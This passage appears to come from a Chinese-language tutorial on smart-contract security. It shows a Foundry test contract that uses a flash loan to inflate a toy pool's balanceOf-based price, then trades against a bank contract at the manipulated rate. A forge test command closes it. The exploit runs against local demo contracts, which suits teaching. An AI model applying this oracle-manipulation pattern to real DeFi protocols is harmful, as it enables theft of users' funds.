 ```
        console.log("Start price manipulation");
        console.log("Borrow 500 USBa over floashloan");
        // Let's manipulate the price since the getPrice is over the balanceOf.
        // Use flashloan to borrow 500 USDa
        SimplePoolContract.flashLoan(500 ether, address(this), "0x0");
    }
    fallback() external {
        //flashlon callback
        emit log_named_decimal_uint(
            "Price manupulated, USDa convert rate",
            SimplePoolContract.getPrice(),
            18
        ); // 1 USDa : 2 USDb
        USDaContract.approve(address(SimpleBankContract), 100 ether);
        SimpleBankContract.exchange(100 ether);
        // Repay the flashloan by transferring 500 USDb to SimplePoolContract
        USDaContract.transfer(address(SimplePoolContract), 500 ether);
        // Get the balance of USDb owned by us.
        emit log_named_decimal_uint(
            "Use 100 USDa to convert, My USDb balance",
            USDbContract.balanceOf(address(this)),
            18
        );
    }
    receive() external payable {}
}
```  
  
  
原本价格是1：1  
```
SimplePoolContract.getPrice(); // 1 USDa : 1 USDb
```  
  
然后使用闪电贷借款后  
```
 SimplePoolContract.flashLoan(500 ether, address(this), "0x0");
```  
  
价格就变成了1:2了  
```
fallback() external {
//flashlon callback
emit log_named_decimal_uint(
"Price manupulated, USDa convert rate",
            SimplePoolContract.getPrice(),
18
        ); // 1 USDa : 2 USDb
```  
  
  
  
C:\Users\xxx\Desktop\web3-function\web3safe\foundry_nightly_win32_amd64\forge.exe  test --contracts ./src\test\Price_manipulation.sol -vvvv  
  